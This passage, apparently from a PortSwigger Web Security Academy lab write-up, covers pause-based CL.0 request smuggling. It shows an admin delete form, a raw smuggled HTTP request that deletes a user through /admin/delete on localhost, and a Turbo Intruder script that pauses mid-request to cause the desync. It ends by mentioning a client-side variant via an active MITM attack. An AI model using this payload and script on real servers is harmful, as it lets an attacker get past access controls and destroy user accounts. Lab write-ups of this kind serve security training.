 ```html
...
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
	<input required type="hidden" name="csrf" value="mfanMrypvbYexeepiit77XVCnLaCAG10">
	<label>Username</label>
	<input required type='text' name='username'>
	<button class='button' type='submit'>Delete user</button>
</form>
...
```

Final payload:
```py
'''
POST /resources HTTP/2
Host: 0aa800b00334602580c7089d00af0065.web-security-academy.net
Cookie: session=JA4fma1pgmjHNfyR6LeZIH4uVgAq5l8m
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 159

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=pUfTPDpksJMJDaheqdsvnBKBWrR43V1Y&username=carlos
'''

# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['Content-Length: 159\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)


def handleResponse(req, interesting):
    table.add(req)

```

## Client-side pause-based desync

In theory, it may be possible to perform a client-side variation of the pause-based CL.0 desync. Unfortunately, we haven't yet found a reliable way to make a browser pause mid-request. However, there is one possible workaround - an active MITM attack.
